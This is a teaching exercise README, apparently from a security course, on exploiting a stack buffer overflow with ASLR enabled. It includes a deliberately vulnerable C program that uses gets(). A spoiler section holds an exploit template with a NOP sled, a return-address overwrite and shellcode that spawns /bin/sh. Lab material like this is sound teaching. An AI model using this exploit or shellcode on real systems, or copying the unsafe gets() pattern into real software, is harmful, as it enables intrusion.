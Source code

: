 # Exercise 5: The Stack and Buffer overflows 
Welcome to the 5th exercise of today. Here, we will learn more about ASLR, and attempt to do a "simple" buffer overflow much like in the earlier exercise.

<b>Useful links:</b>
* [What is ASLR](https://www.howtogeek.com/278056/what-is-aslr-and-how-does-it-keep-your-computer-secure/)
* [GDB/GEF Doc(https://gef.readthedocs.io/en/master/)


## Setup 

Firstly you have to turn make sure that you have ASLR turned on.
```
echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
```
You should now be able to run the binary by
```
./victim
```
And you should receive the output of:
```
0xffd62530
What's your name?
```
## The code
```c
#include <stdio.h>
int main() {
  char name[64];
  printf("%p\n", name);  // Print address of buffer.
  puts("What's your name?");
  gets(name);
  printf("Hello, %s!\n", name);
  return 0;
}

```
As you can see instead of the vulnerable file taking a fileargument it reads from stdin.
## Exercise 5a
Try to run the program again. Does the output change?

## Exercise 5b
Find the size of buffer. 
Does the size of the buffer change between executions?<br>

*You might need to use "aslr on" if you use gdb*
<details>
<summary>Hint</summary>
<i>Hint: Maybe you could use the outputted address for something? Or look at the disassembly?</i>
</details>

## Exercise 5c
Now that you have calculated the size of buffer, you need to run your exploit.

Since we are reading from stdin we are going to use pipes for this.<br>
Firstly create your pipe
```
    > mkfifo pipe
```
In order to run the program you can do such in <b>two</b> terminals<br>
Firstly run the vulnerable file
```
    > ./victim < <(cat pipe)
```
Then provide the input
```
    > echo 'AAAAAAAAAAAAAAAAAAAAAAAAAAA' > pipe
```
Alternatively you can use the exploit.py once it is filled in.
```
    > python exploit.py 0xffb98d40 > pipe
```
You can now create your input using python or any other language of your choice. If you find this too difficult you can open the spoiler below for a template.
<details>
<summary>SPOILER: Template for exploit </summary>

Let us now examine the exploit.py file
```py
    import struct, sys
    pad = "\x90" * (BUFF_SIZE - 4)
    EIP = struct.pack("I", int(sys.argv[1], base=16) + BUFF_SIZE)
    
    #You can use other shellcodes here!
    shellcode = "\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"
    
    #NoOp Sled
    NOP = "\x90" * 100
    print pad + EIP + NOP + shellcode

```
Now alter this file with the your buffer size and do the exploit. <br>
<b>(NOTE: This file takes an address as an argument. Hmm I wonder which?)</b>
</details>

